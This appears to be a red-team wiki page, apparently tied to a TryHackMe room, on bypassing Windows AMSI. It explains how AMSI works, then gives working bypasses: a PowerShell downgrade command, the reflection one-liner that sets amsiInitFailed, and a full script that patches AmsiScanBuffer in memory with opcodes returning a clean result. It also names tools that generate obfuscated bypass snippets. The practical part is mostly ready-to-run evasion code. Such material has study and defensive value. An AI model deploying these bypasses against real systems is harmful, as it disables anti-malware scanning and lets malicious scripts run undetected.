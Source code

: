 # AMSI Bypass

## Theory

With the release of PowerShell, Microsoft released [AMSI (Anti-Malware Scan Interface)](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal). It is a runtime detection measure shipped natively with Windows and is an interface for other products and solutions.

### How it works ?

AMSI (Anti-Malware Scan Interface) is a PowerShell security feature that will allow any applications or services to integrate directly into anti-malware products. Defender instruments AMSI to scan payloads and scripts before execution inside the .NET runtime. The [CLR (Common Language Runtime)](https://learn.microsoft.com/en-us/dotnet/standard/clr) and [DLR (Dynamic Language Runtime)](https://learn.microsoft.com/en-us/dotnet/framework/reflection-and-codedom/dynamic-language-runtime-overview) are the runtimes for .NET.  
  
AMSI is fully integrated into the following Windows components:  
- User Account Control, or UAC  
- PowerShell  
- Windows Script Host (wscript and cscript)  
- JavaScript and VBScript  
- Office VBA macros  
  
The below diagram depicts how data is dissected as it flows through the layers and what DLLs/API calls are being instrumented.  
![](http://hack-army.net/wp-content/uploads/2022/11/35e16d45ce27145fcdf231fdb8dcb35e.png)  
  
This is important to understand the complete model of AMSI, but we can break it down into core components, shown in the diagram below.  
![](http://hack-army.net/wp-content/uploads/2022/11/efca9438e858f0476a4ffd777c36501a.png)


{% hint style="danger" %}
Note: AMSI is only instrumented when loaded from memory when executed from the CLR. It is assumed that if on disk MsMpEng.exe (Windows Defender) is already being instrumented.
{% endhint %}

## Practice

To find where AMSI is instrumented, we can use [InsecurePowerShell](https://github.com/cobbr/InsecurePowerShell) maintained by [Cobbr](https://github.com/cobbr) which is a GitHub fork of PowerShell with security feature removed, and compare it with an [offical PowerShell GitHub](https://github.com/PowerShell/PowerShell).

### PowerShell Downgrade
The PowerShell downgrade attack is a very low-hanging fruit that allows attackers to modify the current PowerShell version to remove security features.  
Most PowerShell sessions will start with the most recent PowerShell engine, but attackers can manually change the version with a one-liner. By "downgrading" the PowerShell version to 2.0, you bypass security features since they were not implemented until version 5.0.

{% tabs %}
{% tab title="Powershell" %}
We can simply use this command to downgrad powershell. This attacked is used in popular tools such as [Unicorn](https://github.com/trustedsec/unicorn)
```bash
PowerShell -Version 2
```
  
{% hint style="danger" %}
Since this attack is such low-hanging fruit and simple in technique, there are a plethora of ways for the blue team to detect and mitigate this attack.
{% endhint %}
{% endtab %}
{% endtabs %}  

### PowerShell Reflection
Reflection allows a user or administrator to access and interact with .NET assemblies. It can be abused to modify and identify information from valuable DLLs.  
The AMSI utilities for PowerShell are stored in the **AMSIUtils** .NET assembly located in **System.Management.Automation.AmsiUtils**.
{% tabs %}
{% tab title="Powershell" %}
Matt Graeber published a one-liner to accomplish the goal of using Reflection to modify and bypass the AMSI utility. This one-line can be seen in the code block below.

```bash
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```  
{% endtab %}
{% endtabs %}  

### Patching AMSI
AMSI is primarily instrumented and loaded from **amsi.dll**. This dll can be abused and forced to point to a response code we want. The **AmsiScanBuffer** function provides us the hooks and functionality we need to access the pointer/buffer for the response code.  
AmsiScanBuffer is vulnerable because amsi.dll is loaded into the PowerShell process at startup; our session has the same permission level as the utility. AmsiScanBuffer will scan a "buffer" of suspected code and report it to amsi.dll to determine the response. We can control this function and overwrite the buffer with a clean return code.

{% tabs %}
{% tab title="C#" %}
At a high-level AMSI patching can be broken up into four steps,

- Obtain handle of amsi.dll
- Get process address of AmsiScanBuffer
- Modify memory protections of AmsiScanBuffer
- Write opcodes to AmsiScanBuffer

```bash
$MethodDefinition = "
    [DllImport(`"kernel32`")] // Import DLL where API call is stored
    public static extern IntPtr GetProcAddress( // API Call to import
        IntPtr hModule, // Handle to DLL module
        string procName // function or variable to obtain
    );

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(
        string lpModuleName // Module to obtain handle
    );

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(
        IntPtr lpAddress, // Address of region to modify
        UIntPtr dwSize, // Size of region
        uint flNewProtect, // Memory protection options
        out uint lpflOldProtect // Pointer to store previous protection options
    );
";
//Load the API calls
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;

//Identify where amsi.dll is located and how to get to the function
$handle = [Win32.Kernel32]::GetModuleHandle(
	'amsi.dll' // Obtains handle to amsi.dll
);
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress(
	$handle, // Handle of amsi.dll
	'AmsiScanBuffer' // API call to obtain
);

//Modify the memory protection of the AmsiScanBuffer process region.
[UInt32]$Size = 0x5; // Size of region
[UInt32]$ProtectFlag = 0x40; // PAGE_EXECUTE_READWRITE
[UInt32]$OldProtectFlag = 0; // Arbitrary value to store options
[Win32.Kernel32]::VirtualProtect(
	$BufferAddress, // Point to AmsiScanBuffer
	$Size, // Size of region
	$ProtectFlag, // Enables R or RW access to region
	[Ref]$OldProtectFlag // Pointer to store old options
); 

//Overwrite the buffer
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy(
	$buf, // Opcodes/array to write
	0, // Where to start copying in source array 
	$BufferAddress, // Where to write (AsmiScanBuffer)
	6 // Number of elements/opcodes to write
); 
```  
{% endtab %}
{% endtabs %}  

### AMSI Bypass Tools
While it is preferred to use the previous methods shown, attackers can use other automated tools to break AMSI signatures or compile a bypass.
{% tabs %}
{% tab title="AMSI.Fail" %}
[amsi.fail](https://amsi.fail/) will compile and generate a PowerShell bypass from a collection of known bypasses.  
From amsi.fail, "AMSI.fail generates obfuscated PowerShell snippets that break or disable AMSI for the current process. The snippets are randomly selected from a small pool of techniques/variations before obfuscating. Every snippet is obfuscated at runtime/request so that no generated output share the same signatures."
{% endtab %}
{% tab title="AMSITrigger" %}
[AMSITrigger](https://github.com/RythmStick/AMSITrigger) allows attackers to automatically identify strings that are flagging signatures to modify and break them. This method of bypassing AMSI is more consistent than others because you are making the file itself clean.
```bash
C:\Users\v4resk\Tools>AmsiTrigger_x64.exe -i "bypass.ps1" -f 3
```
{% endtab %}
{% endtabs %}  

## References

{% embed url="https://tryhackme.com/room/runtimedetectionevasion" %}

